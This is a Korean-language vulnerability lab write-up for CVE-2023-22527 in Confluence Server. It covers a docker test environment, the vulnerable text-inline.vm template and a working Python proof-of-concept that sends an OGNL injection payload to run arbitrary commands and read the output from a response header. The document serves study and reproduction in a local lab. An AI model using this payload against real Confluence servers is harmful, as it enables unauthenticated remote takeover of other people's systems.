








# CVE-2023-22527

**Author** : 6반 김명규

**github** : https://github.com/rlaaudrb1104/kr-vulhub/tree/main/Confluence/CVE-2023-22527

**Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/234

## 개요

- **CVE ID**: CVE-2023-22527
- **공개일**: 2024년 1월 16일
- **심각도**: CVSS 10.0 (Critical)
- **영향받는 제품**: Confluence Data Center 및 Server (버전 8.0.x ~ 8.5.3)
- **취약점 유형**: 템플릿 인젝션을 통한 OGNL(Object-Graph Navigation Language) 인젝션
- **공격자 요구 조건**: 인증되지 않은 원격 공격자
- **영향**: 임의의 시스템 명령 실행 및 전체 시스템 제어 가능

## 환경 구축

다음 명령을 실행하여 Confluence Server 8.5.3을 시작합니다.

```bash
docker compose up -d
```

`http://localhost:8090` 에 접근하면 설치 가이드가 표시됩니다. "평가판 설치"를 선택하면 라이선스 키를 입력하라는 메시지가 표시됩니다. Atlassian에서 Confluence Server 테스트 인증서를 신청해야 합니다.



데이터베이스 구성 페이지에서 다음과 같이 입력합니다.

- **Hostname** : db
- **Port** : 5432
- **Database name** : confluence
- **Username** : postgres
- **Password** : postgres



**Example Site 클릭**



**Manage users and groups within Confluence 클릭**



**admin 계정 생성**



**환경 구축 완료**



## 원인 분석

해당 취약점은 Confluence의 템플릿 파일인 text-inline.vm에서 사용자 입력을 적절히 검증하지 않고 OGNL 표현식을 평가함으로써 발생합니다. 

**취약한 코드(text-inline.vm)**

```java

#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

이 코드는 `$parameters.label` 의 값을 `getText` 함수에 전달하고, 그 결과를 `$stack.findValue`를 통해 평가합니다. 따라서 `$parameters.label`에 악의적인 OGNL 표현식을 포함시키면 해당 표현식이 서버 측에서 실행되어 임의의 코드가 실행될 수 있습니다.

## POC

```python
import requests
import sys

cmd = sys.argv[1]

url = "http://localhost:8090/template/aui/text-inline.vm"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
data = r"label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({'" + cmd + "'}))"

r = requests.post(url, headers=headers, data=data)

if (r.headers.get("X-Cmd-Response")):
    print("[+] exploit success")
    print(r.headers.get("X-Cmd-Response"))
else:
    print("No response")
```

위 코드는 명령어를 인자로 받아 취약한 Confluence 인스턴스에 POST 요청을 보내고, 실행 결과를 X-Cmd-Response 헤더에서 출력합니다. 

### POC 실행

```bash
python poc.py [cmd 명령어]
```

### 실행결과





